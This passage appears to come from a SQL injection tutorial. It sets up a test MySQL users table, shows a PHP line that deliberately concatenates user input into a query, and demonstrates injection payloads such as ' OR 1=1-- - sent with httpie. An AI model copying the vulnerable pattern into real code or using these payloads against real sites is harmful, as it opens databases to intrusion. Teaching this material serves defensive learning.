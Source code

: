 #### 6.1. Build a test DB

From SQL shell you can run:

```SQL
CREATE DATABASE app_db CHARACTER SET utf8;
USE app_db;
CREATE TABLE IF NOT EXISTS users (
    ID INT AUTO_INCREMENT PRIMARY KEY,
    user VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL
);
INSERT INTO users(`user`,`password`) VALUES ('user1','pass1');
INSERT INTO users(`user`,`password`) VALUES ('user2','pass2');
INSERT INTO users(`user`,`password`) VALUES ('user3','pass3');
```

Created records:
```
mysql> select * from users;
+----+-------+----------+
| ID | user  | password |
+----+-------+----------+
|  1 | user1 | pass1    |
|  2 | user2 | pass2    |
|  3 | user3 | pass3    |
+----+-------+----------+
3 rows in set (0.00 sec)
```

Enable SQL logs for debugging purposes:
```
mysql> SET GLOBAL general_log=1;
mysql> SET GLOBAL general_log_file='/tmp/query.log';
```


#### 6.2. Basic example

DBMS connector:
```php
// user-input is trusted and concatenated with the SQL query
$query = "SELECT * FROM users WHERE user='". $_GET['user'] ."';";
print_r($query);
```

Running the code will print the SQL query (with injected SQL payloads):
```console
$ http "https://webdev.local/index.php?user=abc' OR 1=1-- -" --verify=no -b
SELECT * FROM users WHERE user='abc' OR 1=1-- -';

$ http "https://webdev.local/index.php?user=abc' OR '1'='1" --verify=no -b
SELECT * FROM users WHERE user='abc' OR '1'='1';
```


#### 6.3. Example with DBMS connector PHP-MYSQLi

